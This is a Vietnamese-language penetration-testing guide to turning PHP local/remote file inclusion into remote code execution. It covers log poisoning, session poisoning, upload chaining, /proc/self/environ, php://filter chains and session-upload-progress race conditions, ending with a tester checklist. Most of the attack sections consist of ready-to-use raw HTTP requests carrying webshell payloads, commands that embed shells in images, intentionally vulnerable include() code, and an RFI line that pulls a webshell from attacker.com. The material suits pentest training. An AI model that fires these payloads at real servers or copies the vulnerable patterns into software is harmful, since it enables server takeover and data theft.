




# LFI & RFI Exploit Chains & Pentest Checklist

## Bố cục nội dung

```
LFI & RFI Exploit Chains & Pentest Checklist
│
├── Chuỗi khai thác nâng cao (Exploit Chains)
│   ├── Đầu độc tệp tin nhật ký (Log Poisoning)
│   │   ├── Sơ đồ hoạt động (Mermaid)
│   │   ├── Mã nguồn PHP có lỗ hổng
│   │   └── Hướng dẫn khai thác từng bước (Raw HTTP Request/Response)
│   │
│   ├── Đầu độc tệp tin phiên làm việc (Session Poisoning)
│   │   ├── Sơ đồ hoạt động (Mermaid)
│   │   ├── Mã nguồn PHP có lỗ hổng
│   │   └── Hướng dẫn khai thác từng bước (Raw HTTP Request/Response)
│   │
│   ├── Liên kết lỗ hổng tải tệp tin (File Upload Chaining)
│   │   ├── Sơ đồ hoạt động (Mermaid)
│   │   ├── Mã nguồn PHP có lỗ hổng
│   │   └── Hướng dẫn khai thác từng bước (Raw HTTP Request/Response)
│   │
│   ├── Đầu độc biến môi trường /proc/self/environ (Legacy Technique)
│   │   ├── Lý do kỹ thuật lỗi thời
│   │   └── Ví dụ Raw HTTP Request
│   ├── Chuỗi bộ lọc PHP Filter Chain (Kỹ thuật hiện đại)
│   │   ├── Nguyên lý hoạt động
│   │   ├── Phân tích chi tiết một payload mẫu
│   │   └── Công cụ tự động tạo chuỗi bộ lọc
│   │
│   └── Đầu độc Session qua Tiến trình tải tệp (PHP Session Upload Progress)
│       ├── Nguyên lý hoạt động
│       ├── Sơ đồ hoạt động (Mermaid)
│       ├── Các bước khai thác và Raw HTTP Request
│       └── Các cấu hình quyết định khả năng khai thác
│
└── Danh sách kiểm tra lỗi (Pentest Checklist)
    ├── Các tham số đầu vào thường gặp cần kiểm tra
    ├── Các hàm PHP cần tìm kiếm khi thực hiện rà soát mã nguồn
    ├── Kiểm tra thông báo lỗi hệ thống (Error Message Inspection)
    └── Quy trình kiểm thử dựa trên cấu hình hệ thống
```

<div style="page-break-after: always;"></div>

## Chuỗi khai thác nâng cao (Exploit Chains)

Mục tiêu cao nhất của một kiểm thử viên khi phát hiện ra lỗ hổng Local File Inclusion (LFI) là nâng quyền khai thác từ việc **Đọc tệp tin tùy ý (Arbitrary File Read)** lên **Thực thi mã độc từ xa (RCE - Remote Code Execution)**. Để đạt được điều này, chúng ta cần kết hợp LFI với các cơ chế lưu trữ dữ liệu của hệ thống để tạo thành một chuỗi khai thác hoàn chỉnh.

---

### 1. Đầu độc tệp tin nhật ký (Log Poisoning)

#### Nguyên lý hoạt động

Khi người dùng gửi yêu cầu HTTP đến máy chủ web (Apache, Nginx, v.v.), máy chủ sẽ ghi lại các thông tin của yêu cầu đó vào tệp tin nhật ký hệ thống (Access Log hoặc Error Log). Các thông tin được ghi nhận thường bao gồm: địa chỉ IP, thời gian, URL yêu cầu, mã trạng thái và tiêu đề `User-Agent`.
Nếu người kiểm thử chèn mã độc PHP vào tiêu đề `User-Agent` hoặc trực tiếp vào URL yêu cầu, máy chủ web sẽ ghi đè chuỗi mã độc này vào file log dưới dạng văn bản thô. Khi sử dụng lỗ hổng LFI để gọi tệp tin log này, bộ dịch PHP (PHP parser) sẽ biên dịch và thực thi đoạn mã độc PHP nằm bên trong file log đó.

#### Sơ đồ hoạt động



#### Mã nguồn PHP có lỗ hổng

```php
<?php
// file: index.php
// Lập trình viên lấy trực tiếp đường dẫn từ tham số page mà không lọc bỏ ký tự nguy hiểm
$page = $_GET['page'];
include($page); 
?>
```

#### Hướng dẫn khai thác từng bước

**Bước 1: Gửi mã độc vào tệp nhật ký (Poisoning)**
Người kiểm thử gửi yêu cầu HTTP thô đến trang chủ, sửa đổi tiêu đề `User-Agent` thành mã độc PHP.

*Raw HTTP Request:*

```http
GET /index.php HTTP/1.1
Host: target.com
User-Agent: <?php system($_GET['cmd']); ?>
Connection: close
```

*Đoạn ghi nhận trong file `/var/log/apache2/access.log` sau khi request được xử lý:*

```log
192.168.1.15 - - [28/Jul/2026:16:30:00 +0700] "GET /index.php HTTP/1.1" 200 4522 "-" "<?php system($_GET['cmd']); ?>"
```

**Bước 2: Thực thi mã độc qua lỗ hổng LFI**
Người kiểm thử sử dụng LFI để nhúng tệp nhật ký tương ứng, truyền thêm tham số `cmd` chứa lệnh hệ thống cần thực thi.

*Raw HTTP Request:*

```http
GET /index.php?page=/var/log/apache2/access.log&cmd=id HTTP/1.1
Host: target.com
Connection: close
```

*Raw HTTP Response nhận về:*

```http
HTTP/1.1 200 OK
Content-Type: text/html; charset=UTF-8
Connection: close

... [nội dung log trước đó] ...
192.168.1.15 - - [28/Jul/2026:16:30:00 +0700] "GET /index.php HTTP/1.1" 200 4522 "-" "uid=33(www-data) gid=33(www-data) groups=33(www-data)
"
... [nội dung log sau đó] ...
```

> **Mẹo (Tip) - Các đường dẫn tệp nhật ký mặc định phổ biến:**
>
> - **Apache trên Ubuntu/Debian:** `/var/log/apache2/access.log`, `/var/log/apache2/error.log`
> - **Nginx trên Ubuntu/Debian:** `/var/log/nginx/access.log`, `/var/log/nginx/error.log`
> - **Apache trên CentOS/RHEL/Fedora:** `/var/log/httpd/access_log`, `/var/log/httpd/error_log`
> - **IIS trên Windows:** `C:\inetpub\logs\LogFiles\W3SVC1\u_ex[YYMMDD].log`

---

### 2. Đầu độc tệp tin phiên làm việc (Session Poisoning)

#### Nguyên lý hoạt động

Mặc định, PHP lưu trữ dữ liệu phiên làm việc (Session) của người dùng vào các tệp tin tạm thời trên đĩa cứng máy chủ. Tên tệp tin này được đặt theo định dạng `sess_[PHPSESSID]`, trong đó `[PHPSESSID]` là giá trị cookie phiên làm việc của người dùng.
Nếu ứng dụng cho phép người dùng lưu trữ dữ liệu đầu vào (ví dụ: ngôn ngữ lựa chọn, tên đăng nhập, giỏ hàng) vào biến `$_SESSION` và người kiểm thử chèn mã độc PHP vào đó, mã độc này sẽ được ghi trực tiếp vào tệp tin `sess_[PHPSESSID]`. Sử dụng LFI để nhúng tệp tin này sẽ giúp thực thi mã độc thành công.

#### Sơ đồ hoạt động



#### Mã nguồn PHP có lỗ hổng

```php
<?php
// file: index.php
session_start();

// Điểm đầu độc (Source): Ghi nhận trực tiếp dữ liệu người dùng kiểm soát vào Session
if (isset($_GET['lang'])) {
    $_SESSION['lang'] = $_GET['lang'];
}

// Điểm tiếp nhận nhúng file (Sink): Lỗ hổng LFI
if (isset($_GET['page'])) {
    include($_GET['page']);
}
?>
```

#### Hướng dẫn khai thác từng bước

**Bước 1: Gửi yêu cầu đầu độc dữ liệu Session**
Người kiểm thử gửi một yêu cầu thiết lập biến `lang` chứa payload PHP độc hại, đồng thời ghim cố định giá trị `PHPSESSID` trong Cookie (ví dụ: `sessionshell456`).

*Raw HTTP Request:*

```http
GET /index.php?lang=%3C%3Fphp%20system%28%24_GET%5B%27cmd%27%5D%29%3B%20%3F%3E HTTP/1.1
Host: target.com
Cookie: PHPSESSID=sessionshell456
Connection: close
```

*Đoạn ghi nhận trong file session `/var/lib/php/sessions/sess_sessionshell456` trên máy chủ:*

```log
lang|s:31:"<?php system($_GET['cmd']); ?>";
```

**Bước 2: Thực thi mã độc qua lỗ hổng LFI**
Nhúng tệp session bằng đường dẫn tương ứng với Session ID đã sử dụng ở bước 1.

*Raw HTTP Request:*

```http
GET /index.php?page=/var/lib/php/sessions/sess_sessionshell456&cmd=uname+-a HTTP/1.1
Host: target.com
Cookie: PHPSESSID=sessionshell456
Connection: close
```

*Raw HTTP Response nhận về:*

```http
HTTP/1.1 200 OK
Content-Type: text/html; charset=UTF-8
Connection: close

lang|s:31:"Linux webserver 5.15.0-76-generic #83-Ubuntu SMP Wed Jun 21 15:34:00 UTC 2026 x86_64 x86_64 x86_64 GNU/Linux
";
```

> **Mẹo (Tip) - Các đường dẫn thư mục lưu trữ Session mặc định:**
>
> - `/var/lib/php/sessions/`
> - `/var/lib/php/session/`
> - `/tmp/`
> - `/var/tmp/`
> - `C:\Windows\Temp\` (Hệ điều hành Windows)

---

### 3. Liên kết lỗ hổng tải tệp tin (File Upload Chaining)

#### Nguyên lý hoạt động

Nếu trang web có chức năng cho phép người dùng tải tệp tin lên (ví dụ: tải ảnh đại diện, tải tài liệu đính kèm) nhưng cấu hình bảo mật chỉ kiểm tra định dạng tệp tin dựa trên phần mở rộng (như chỉ cho tải `.jpg`, `.png`, `.pdf`) mà không kiểm tra nội dung thực tế, người kiểm thử có thể tải lên một file ảnh hợp lệ nhưng có chứa mã độc PHP ẩn bên trong.
Khi kết hợp với lỗ hổng LFI, người kiểm thử nhúng trực tiếp file ảnh đã tải lên. Do bản chất hàm `include()` sẽ biên dịch tất cả mọi thứ có chứa cặp thẻ mở/đóng PHP `<?php ... ?>` bất kể phần mở rộng của file đó là gì (ngay cả file `.jpg`), mã độc PHP ẩn trong ảnh sẽ được thực thi hoàn chỉnh.

#### Sơ đồ hoạt động



#### Mã nguồn PHP có lỗ hổng

Dưới đây là một đoạn mã xử lý tải file lên chỉ thực hiện kiểm tra phần mở rộng (extension blacklist) lỏng lẻo:

```php
<?php
// file: upload.php
$target_dir = "uploads/";
$target_file = $target_dir . basename($_FILES["fileToUpload"]["name"]);
$file_ext = strtolower(pathinfo($target_file, PATHINFO_EXTENSION));

// Chỉ chặn tệp tin có đuôi mở rộng là .php
if ($file_ext === "php") {
    die("Lỗi: Không cho phép tải lên tệp tin mã lệnh PHP!");
}

if (move_uploaded_file($_FILES["fileToUpload"]["tmp_name"], $target_file)) {
    echo "Tải tệp tin thành công tại: " . $target_file;
}
?>
```

#### Hướng dẫn khai thác từng bước

**Bước 1: Chèn mã độc PHP vào tệp tin hình ảnh**
Sử dụng công cụ `exiftool` để ghi đè mã PHP vào trường thông tin phụ đề (Exif Comment) của ảnh mà không làm hỏng cấu trúc ảnh:

(Link công cụ: [exiftool.org](https://exiftool.org/))

```bash
exiftool -Comment="<?php system($_GET['cmd']); ?>" normal_image.jpg -o shell_image.jpg
```

Hoặc chèn trực tiếp mã lệnh vào cuối tệp tin ảnh bằng câu lệnh ghép nối nhị phân:

```bash
echo "<?php system(\$_GET['cmd']); ?>" >> normal_image.jpg
```

**Bước 2: Tải ảnh độc hại lên hệ thống**
Thực hiện tải tệp `shell_image.jpg` lên thông qua ứng dụng và ghi nhận lại đường dẫn lưu trữ trên máy chủ (ví dụ: `uploads/shell_image.jpg`).`

**Bước 3: Nhúng tệp tin ảnh thông qua LFI để thực thi mã độc**
Gửi yêu cầu HTTP kích hoạt lỗ hổng LFI và gọi file ảnh vừa tải lên:

```http
GET /index.php?page=uploads/shell_image.jpg&cmd=whoami HTTP/1.1
Host: target.com
Connection: close
```

Máy chủ sẽ trả về dữ liệu nhị phân lỗi của ảnh, nhưng xen kẽ trong đó là kết quả thực thi lệnh hệ thống (ví dụ: `www-data`).

---

### 4. Đầu độc biến môi trường /proc/self/environ (Legacy Technique)

#### Lý do kỹ thuật lỗi thời

Trên các máy chủ chạy hệ điều hành Linux phiên bản cũ trước đây, thư mục `/proc/self/environ` lưu trữ thông tin về các biến môi trường của tiến trình hiện tại đang thực thi (bao gồm biến `HTTP_USER_AGENT` chứa thông tin trình duyệt gửi lên). Người kiểm thử có thể chèn mã độc vào tiêu đề `User-Agent` rồi nhúng file `/proc/self/environ` để kích hoạt thực thi mã lệnh.

Tuy nhiên, kỹ thuật này hiện nay **hầu như không còn hoạt động** trên các hệ thống hiện đại vì:

1. **Phân quyền hệ thống nghiêm ngặt:** Các hệ điều hành Linux hiện đại cấu hình quyền đọc thư mục `/proc` cực kỳ hạn chế. Tiến trình máy chủ web chạy dưới quyền người dùng thông thường (như `www-data` hoặc `nobody`) không được phép đọc tệp tin môi trường của tiến trình.
2. **Cơ chế cô lập tiến trình:** Việc áp dụng các cơ chế Sandbox, Container hóa (Docker) và các công cụ kiểm soát an ninh như SELinux, AppArmor ngăn chặn hoàn toàn việc các tiến trình ứng dụng web tương tác trực tiếp với các tệp tin hệ thống nhạy cảm của nhân hệ điều hành.

#### Ví dụ Raw HTTP Request (Chỉ mang tính chất tham khảo lịch sử)

```http
GET /index.php?page=/proc/self/environ HTTP/1.1
Host: target.com
User-Agent: <?php system('cat /etc/passwd'); ?>
Connection: close
```

---

### 5. Chuỗi bộ lọc PHP Filter Chain (Kỹ thuật hiện đại)

#### Nguyên lý hoạt động

Đây là kỹ thuật khai thác LFI hiện đại và mạnh mẽ nhất hiện nay. Điểm đặc biệt của kỹ thuật này là **không cần máy chủ cấu hình bật nhúng file từ xa (`allow_url_include = Off`)**, đồng thời **không yêu cầu phải có tính năng ghi file hay tải tệp tin lên hệ thống**.

Kỹ thuật này sử dụng luồng **php://filter** kết hợp liên tiếp nhiều bộ lọc chuyển đổi bảng mã ký tự khác nhau (chủ yếu là `convert.iconv.<from_charset>.<to_charset>`). Bằng cách dịch mã liên tục một tệp tin rác sẵn có trên hệ thống hoặc luồng rỗng (`data:,`), chúng ta có thể sinh ra từng ký tự mong muốn trực tiếp trong bộ nhớ đệm của PHP và nối chúng lại thành một đoạn mã PHP độc hại hoàn chỉnh (như `<?php system($_GET['cmd']); ?>`) để thực thi ngay lập tức.

#### Phân tích chi tiết một payload mẫu

Để dễ hình dung, hãy xem xét cách thức hệ thống xử lý bộ lọc chuyển đổi ký tự:
Khi ta chuyển đổi một chuỗi ký tự qua bộ lọc `convert.iconv.UTF8.UTF16` hoặc chuyển đổi từ các bảng mã đặc biệt như `CSISO2022KR`, một số byte rác sẽ bị mất hoặc tự động thêm các byte đánh dấu định dạng (BOM - Byte Order Mark) hay các ký tự đại diện.

Ví dụ, nếu chúng ta muốn tạo ra ký tự `P`:

1. Chúng ta bắt đầu với một chuỗi dữ liệu gốc (ví dụ: tệp tin chứa dữ liệu bất kỳ trên hệ thống).
2. Áp dụng bộ lọc chuyển đổi bảng mã để ép hệ thống hiểu sai định dạng của tệp và sinh ra các ký tự lạ.
3. Sử dụng các bộ lọc làm sạch như `dechunk` hoặc `strip_tags` để lọc bỏ các ký tự thừa xung quanh, chỉ giữ lại ký tự mong muốn.
4. Lặp lại việc ghép các bộ lọc chuyển đổi để tạo ra chuỗi Base64 hoàn chỉnh đại diện cho payload độc hại.
5. Cuối cùng, áp dụng bộ lọc `convert.base64-decode` ở cuối chuỗi để giải mã ngược lại chuỗi Base64 đó thành mã PHP nguyên bản trong bộ nhớ để hàm `include()` thực thi.

Một đoạn URL khai thác thực tế sẽ có dạng như sau:

```http
GET /index.php?page=php://filter/convert.iconv.UTF8.CSISO2022KR/convert.iconv.UTF16.EUCTW/convert.iconv.CP1256.UCS4/convert.base64-decode/resource=data:,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7Pz4 HTTP/1.1
Host: target.com
Connection: close
```

*(Trong đó, phần `resource=data:,...` đại diện cho tài nguyên đầu vào thô, đi qua hàng chục bộ lọc chuyển đổi để cho ra kết quả cuối cùng).*

#### Công cụ tự động tạo chuỗi bộ lọc

Do việc tính toán thủ công các bộ lọc chuyển đổi bảng mã để sinh ra từng ký tự cực kỳ phức tạp, chúng ta sử dụng công cụ mã nguồn mở được phát triển bởi các chuyên gia bảo mật: **Synacktiv PHP Filter Chain Generator**.

*Cách thức sử dụng:*

```bash
# Tải công cụ từ kho lưu trữ GitHub và chạy lệnh sinh chuỗi payload RCE
python3 php_filter_chain_generator.py --chain '<?php system($_GET["cmd"]); ?>'
```

Công cụ sẽ tự động xuất ra một chuỗi URL cực kỳ dài chứa hàng trăm bộ lọc `convert.iconv.*`. Bạn chỉ cần lấy toàn bộ chuỗi này truyền vào tham số bị lỗi LFI để đạt được RCE ngay lập tức mà không cần tạo bất kỳ file nào trên đĩa cứng của mục tiêu.

---

### 6. Đầu độc Session qua Tiến trình tải tệp (PHP Session Upload Progress)

#### Nguyên lý hoạt động

PHP cung cấp cơ chế theo dõi tiến trình tải lên của tệp tin thông qua Session (`session.upload_progress`).
Khi người kiểm thử gửi một yêu cầu `POST` dạng `multipart/form-data` để tải lên một tệp tin ngẫu nhiên, đồng thời truyền thêm một tham số POST mang tên `PHP_SESSION_UPLOAD_PROGRESS` (tên tham số mặc định), máy chủ PHP sẽ tự động khởi tạo phiên làm việc (Session) và ghi thông tin tiến trình tải lên vào tệp tin session `sess_[PHPSESSID]` (ngay cả khi ứng dụng **không hề gọi** hàm `session_start()`).

Thông tin tiến trình tải lên này được PHP lưu vào Session dưới dạng một mảng, trong đó có chứa giá trị của tham số `PHP_SESSION_UPLOAD_PROGRESS` do người dùng kiểm soát. Nếu chèn payload PHP độc hại vào tham số này, mã độc sẽ được lưu trực tiếp vào đĩa cứng trong file session. Sử dụng LFI nhúng file session này sẽ giúp thực thi mã độc thành công.

Kỹ thuật này cực kỳ nguy hiểm và hiệu quả vì **không cần ứng dụng phải có chức năng đăng nhập, đổi ngôn ngữ hay upload file thực tế**, chỉ cần máy chủ PHP chạy cấu hình mặc định là có thể bị khai thác.

#### Sơ đồ hoạt động



#### Các cấu hình quyết định khả năng khai thác

Các tùy chọn cấu hình sau trong tệp tin `php.ini` ảnh hưởng trực tiếp đến chuỗi khai thác này:

* `session.upload_progress.enabled = On` (Mặc định bật, cho phép PHP kích hoạt theo dõi).
* `session.upload_progress.cleanup = On` (Mặc định bật. PHP sẽ tự động xóa thông tin tiến trình khỏi session **ngay sau khi tệp tin upload hoàn tất**).
  > **Mẹo (Tip) - Vượt qua cơ chế Cleanup:** Vì PHP tự động dọn dẹp file session sau khi upload xong, người kiểm thử cần sử dụng kỹ thuật **Race Condition** (Tấn công tranh chấp tài nguyên) bằng cách gửi liên tục nhiều luồng yêu cầu tải lên một file có kích thước cực lớn để kéo dài thời gian truyền dữ liệu, đồng thời gửi song song nhiều yêu cầu LFI để nhúng tệp session trước khi PHP kịp dọn dẹp.
  >
* `session.upload_progress.name = "PHP_SESSION_UPLOAD_PROGRESS"` (Tên tham số POST mà PHP tìm kiếm).
* `session.upload_progress.prefix = "upload_progress_"` (Tiền tố khóa của mảng trong Session).

#### Các bước khai thác và Raw HTTP Request

**Bước 1: Gửi yêu cầu POST chứa mã độc qua Upload Progress**
Người kiểm thử gửi một HTTP Request POST tải lên một file bất kỳ, ghim cố định `PHPSESSID=progressshell` và chèn mã độc PHP vào tham số `PHP_SESSION_UPLOAD_PROGRESS`.

*Raw HTTP Request:*

```http
POST /index.php HTTP/1.1
Host: target.com
Cookie: PHPSESSID=progressshell
Content-Type: multipart/form-data; boundary=---------------------------987654321
Content-Length: 365
Connection: close

-----------------------------987654321
Content-Disposition: form-data; name="PHP_SESSION_UPLOAD_PROGRESS"

<?php system($_GET['cmd']); ?>
-----------------------------987654321
Content-Disposition: form-data; name="file"; filename="test.txt"
Content-Type: text/plain

test upload file progress
-----------------------------987654321--
```

**Bước 2: Gọi thực thi tệp session qua LFI**
Ngay lập tức gửi yêu cầu GET thực hiện LFI đến file session tương ứng để thực thi mã độc.

*Raw HTTP Request:*

```http
GET /index.php?page=/var/lib/php/sessions/sess_progressshell&cmd=whoami HTTP/1.1
Host: target.com
Connection: close
```

Hệ thống sẽ biên dịch file session chứa payload và thực thi lệnh hệ thống, trả kết quả (ví dụ `www-data`) trong response.

---

<div style="page-break-after: always;"></div>

## Danh sách kiểm tra lỗi (Pentest Checklist)

Khi thực hiện đánh giá bảo mật của một ứng dụng web PHP, kiểm thử viên có thể sử dụng checklist dưới đây để rà soát và khai thác lỗi nhúng tệp tin một cách hệ thống.

### 1. Các tham số đầu vào thường gặp cần kiểm tra

Hãy đặc biệt chú ý và thử nghiệm các ký tự điều hướng (`../`, absolute path, stream wrappers) đối với các tham số đầu vào có chức năng tải trang hoặc đọc tài liệu:

| Tên tham số                     | Mục đích sử dụng thông thường                                |
| :-------------------------------- | :------------------------------------------------------------------- |
| `page`, `file`, `f`         | Dùng để tải trang giao diện động hoặc đọc file tài liệu. |
| `path`, `dir`, `folder`     | Đường dẫn thư mục hoặc đường dẫn lưu trữ tệp tin.      |
| `lang`, `language`            | Thay đổi ngôn ngữ giao diện (như`lang=en`, `lang=vi`).     |
| `doc`, `document`, `pdf`    | Xem hoặc tải xuống tệp tin tài liệu nội bộ.                  |
| `template`, `temp`, `theme` | Nhúng tệp tin giao diện (template) của trang web.                |
| `view`, `content`, `read`   | Hiển thị nội dung chi tiết của một bài viết hoặc tệp tin.  |

---

### 2. Các hàm PHP cần tìm kiếm khi thực hiện rà soát mã nguồn

Nếu bạn có quyền tiếp cận mã nguồn (Whitebox Testing / Source Code Review), hãy tìm kiếm các hàm tương tác với hệ thống tệp tin và kiểm tra xem dữ liệu truyền vào hàm có xuất phát từ người dùng hay không:

| Nhóm chức năng              | Tên hàm PHP                                | Tác động bảo mật tiềm ẩn nếu có lỗi                                                                                                    |
| :----------------------------- | :------------------------------------------- | :----------------------------------------------------------------------------------------------------------------------------------------------- |
| **Nhúng tệp tin**      | `includerequire``include_oncerequire_once` | Gây ra lỗi**LFI / RFI**. Nếu kiểm soát được tham số đầu vào, có khả năng nâng quyền lên **RCE**.                   |
| **Đọc dữ liệu thô** | `file_get_contentsreadfile``fopenfile`     | Gây ra lỗi**Arbitrary File Read** (Đọc file tùy ý). Cho phép lấy cắp mã nguồn ứng dụng hoặc tệp tin hệ thống nhạy cảm.  |
| **Ghi dữ liệu**        | `file_put_contentsfwrite`                  | Gây ra lỗi**Arbitrary File Write** (Ghi file tùy ý/RCE). Có thể ghi đè file cấu hình hoặc tạo file `.php` mới để RCE.     |
| **Xóa tệp tin**        | `unlink`                                   | Gây ra lỗi**Arbitrary File Delete** (Xóa file tùy ý). Có thể xóa file `.htaccess` để bypass cơ chế bảo mật của máy chủ. |

---

### 3. Kiểm tra thông báo lỗi hệ thống (Error Message Inspection)

Việc phân tích các thông báo lỗi (Warning hoặc Fatal Error) xuất ra màn hình sẽ cung cấp cho bạn thông tin rất giá trị về công nghệ và cấu hình máy chủ:

| Thông báo lỗi nhận được                                                                                 | Phân tích ý nghĩa bảo mật                                                                                                                              | Hướng khai thác/Kiểm thử tiếp theo                                                                                                                                                       |
| :------------------------------------------------------------------------------------------------------------- | :----------------------------------------------------------------------------------------------------------------------------------------------------------- | :--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `Warning: include(): failed to open stream: No such file or directory in ...`                                | - Ứng dụng sử dụng hàm`include()` để nhúng tệp tin.- File truyền vào không tồn tại trên hệ thống.                                         | - Xác nhận lỗ hổng LFI tồn tại.- Thử nghiệm điều hướng ngược thư mục (Path Traversal) với nhiều cấp hơn (ví dụ:`../../../../etc/passwd`).                              |
| `Warning: include(): open_basedir restriction in effect. File(...) is not within the allowed path(s) in ...` | Cấu hình bảo mật`open_basedir` đang hoạt động, giới hạn các thư mục mà PHP được quyền truy cập.                                         | - Thử nghiệm sử dụng wrapper`glob://` để dò quét các thư mục được phép.- Tìm kiếm tính năng upload tệp tin để tải file vào chính thư mục được phép truy cập. |
| `Warning: include(): failed to open stream: Permission denied in ...`                                        | Tệp tin bạn yêu cầu truy cập tồn tại trên ổ đĩa, nhưng tài khoản chạy dịch vụ web (ví dụ:`www-data`) không có quyền đọc tệp này. | - Tìm kiếm các tệp tin hệ thống khác có phân quyền mở rộng hơn (như`/etc/hosts` hoặc `/etc/resolv.conf`).                                                                   |
| `Warning: include(): failed to open stream: HTTP request failed! HTTP/1.1 404 Not Found in ...`              | Cấu hình`allow_url_include` đang được bật và hệ thống đang cố gắng tải một URL từ xa nhưng URL đó không tồn tại.                     | - Lỗ hổng**RFI** hoàn toàn khả thi.- Thiết lập một máy chủ HTTP độc lập để chứa mã độc và thực hiện nhúng từ xa.                                                 |

---

### 4. Quy trình kiểm thử dựa trên cấu hình hệ thống

Dưới đây là sơ đồ tư duy quyết định (Decision Tree) giúp bạn định hướng các bước kiểm thử dựa trên cấu hình bảo mật thực tế của máy chủ web:

```
[Bắt đầu: Phát hiện tham số lỗi LFI]
        │
        ├──► Cấu hình [allow_url_include = On] và [allow_url_fopen = On]
        │         │
        │         ├──► RFI khả thi: Nhúng webshell từ xa qua HTTP/HTTPS
        │         │          (Ví dụ: ?page=http://attacker.com/shell.txt)
        │         │
        │         └──► Sử dụng Wrapper php://input hoặc data:// để RCE trực tiếp
        │                    (Ví dụ: ?page=data://text/plain,<?php system('id');?>)
        │
        └──► Cấu hình [allow_url_include = Off] (LFI cục bộ)
                  │
                  ├──► Ứng dụng có chức năng File Upload?
                  │         │
                  │         ├──► CÓ: Tải lên ảnh chứa mã độc ẩn -> LFI gọi thực thi
                  │         │        (Liên kết File Upload + LFI)
                  │         │
                  │         └──► KHÔNG: Tìm kiếm các điểm đầu độc cục bộ
                  │                   │
                  │                   ├──► Đọc được Access/Error Log? 
                  │                   │         └──► Thực hiện Log Poisoning để RCE
                  │                   │
                  │                   ├──► Ứng dụng có dùng Session?
                  │                   │         └──► Thực hiện Session Poisoning để RCE
                  │                   │
                  │                   └──► Sử dụng kỹ thuật nâng cao PHP Filter Chain
                  │                             (RCE trực tiếp trong bộ nhớ đệm)
```
